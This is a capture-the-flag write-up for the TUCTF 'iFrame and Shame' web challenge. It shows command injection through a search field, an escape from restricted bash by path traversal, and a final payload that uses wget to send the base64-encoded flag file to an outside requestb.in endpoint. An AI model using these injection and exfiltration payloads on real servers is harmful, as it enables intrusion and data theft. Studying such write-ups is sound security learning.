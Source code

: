 ## iFrame and Shame (Web, 300pt)

> I overheard some guys bragging about how they have a custom Youtube search bar on their site. Put them to shame.
> 
> Note: The input from the search bar should be passed to a script that queries youtube using "youtube.com/results?search_query=[your query]". Then it will put it in an iframe. You are only seeing the one video because it is the default upon error.
> NOTE: iFrame and Shame's search bar is supposed to query Youtube, but it doesn't behave as intended because we didn't consider that Youtube limits queries. The challenge is still solvable.
>
> http://iframeshame.tuctf.com

The challenge gives us only an input box through which we can query YouTube. After fuzzing for SQLi and command injection I was able to execute commands on the server (receive output) using the following payload:

```
"; echo rce #
```

However, after poking a bit with the server and not being able to find the flag file, I realized that something fishy was going on. Not all my commands returned output so I tried to `cat /etc/passwd` and found out that the `chal` user was running in `/bin/rbash`.

I used `dot-dot-slash` to escape it and searched for the flag file using the following command:

```
../../../../../../find ../../../../../../ -type -f -name flag
```

The server responsed:

```
HTTP/1.1 200 OK
Date: Sat, 25 Nov 2017 00:17:08 GMT
Server: Apache/2.4.10 (Debian)
Vary: Accept-Encoding
Content-Length: 286
Connection: close
Content-Type: text/html; charset=UTF-8


<form name="searchform" method="POST" action="">
    <input id="search" type="text" name="search"/>
    <input type="submit" name="Submit"/>
</form>

<iframe width="560" height="315" src="../../../../../../home/chal/iFrame-and-Shame/flag?autoplay=1" frameborder="0" allowfullscreen></iframe>
```

Initially, I tried to cat the flag but not all content was returned. I also tried to base64 it or hexdump it, but still not luck. So, I decided to encode it and send it to requestb.in!

```
wget https://requestb.in/XXXXXXXX?x=$(base64 /home/chal/iFrame-and-Shame/flag)
```

The final payload looked like this:

```
"; ../../../../../../usr/bin/wget https://requestb.in/1k2lrzs1?x=$(../../../../../../usr/bin/base64 ../../../../../../home/chal/iFrame-and-Shame/flag) #
```

```
# TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}
```
